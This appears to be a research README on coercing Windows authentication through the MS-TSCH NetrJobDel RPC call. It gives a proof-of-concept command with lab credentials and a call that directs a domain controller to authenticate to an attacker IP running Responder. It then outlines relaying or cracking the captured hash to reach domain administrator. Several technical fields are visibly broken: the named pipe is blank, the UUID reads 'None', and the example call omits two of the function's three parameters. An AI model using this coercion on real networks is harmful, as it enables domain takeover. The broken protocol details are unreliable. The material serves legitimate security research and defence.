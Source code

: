 # MS-TSCH - Remote call to NetrJobDel (opnum 1)

## Summary

+ **Protocol**: [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931)

+ **Protocol UUID**: None

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`NetrJobDel`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/eaf77b14-cdeb-4fbb-8f52-3f9d0d0ffbf1)

+ **Function operation number**: `1`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol (with uuid `None` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) and allows to call RPC functions of this protocol. We will then call the remote [`NetrJobDel`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/eaf77b14-cdeb-4fbb-8f52-3f9d0d0ffbf1) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrJobDel('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrJobDel(
   [in, string, unique] ATSVC_HANDLE ServerName,
   [in] DWORD MinJobId,
   [in] DWORD MaxJobId
 );
```

## References

+ Documentation of protocol [MS-TSCH]: Task Scheduler Service Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931

+ Documentation of function `NetrJobDel`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/eaf77b14-cdeb-4fbb-8f52-3f9d0d0ffbf1